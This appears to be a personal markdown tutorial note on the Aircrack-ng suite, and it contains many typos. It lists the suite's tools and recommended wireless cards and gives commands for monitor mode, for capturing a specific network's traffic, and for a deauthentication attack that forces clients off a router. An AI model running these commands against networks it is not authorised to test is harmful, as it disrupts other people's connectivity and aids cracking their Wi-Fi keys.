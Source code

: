 
# AirCrack-Ng Tool
- Aircrak-ng is not a signle tool, but  rather a suit of tools for manipu;ating and craking wifi networks
    
    - Airmon-ng
          
          - Placing different cards in monitor mode.
    - aircrack-nh
          
          - Wireless key cracking program
     - aurodump-ng
     
            - Packet sniffer

     - aireplay-ng
     
            - Packet injector
     - airbase-ng 
    
           - config dake access points
    
     - airdecap-ng 


            - decrypt WEP/WPA/WPA2 encryption

## Packet Injection

 <P> Packet injection allow to intercept, disrupt and manipulate netwoek communication.
  packet injection is commonly used in man-in-the-middle attacks
  
  An example of this is sending a deautentication packets from an unknown party outside the network to a connected client as
  id it as  send by the wireless router. This will result in the client disconnecting from the router.
  </P>
  
  ### Recommended use wireless cards
    - ALFA AWUS06H
    - TP-LINK WN722N
    - ALFA AWUS036NHA
  
  ### To test network adopter for packet injection
  ```bash
  aireplay-ng -9 wlx
  ```
  
  ### Put wireless card in monitor mode
  ```bash
  sudo airmon-ng start wlx
  ```
  - To kill the process 
  ```
  airmon-ng check kill
  ```
  - To check the monitor mode
  ```
  iwconfig
  ```
- To list the wireless network arround you
```bash
airodump-ng wlx
```
- TO crak a specific network
```
└──╼ #airodump-ng -c 7 --bssid 28:DE:E5:BA:BC:C8 wlx502b73a0015b
```
- Force client to dissconnect
```
└──╼ #aireplay-ng -0 20 -a 28:DE:E5:BA:BC:C8 wlx502b73a0015b
```



  
    
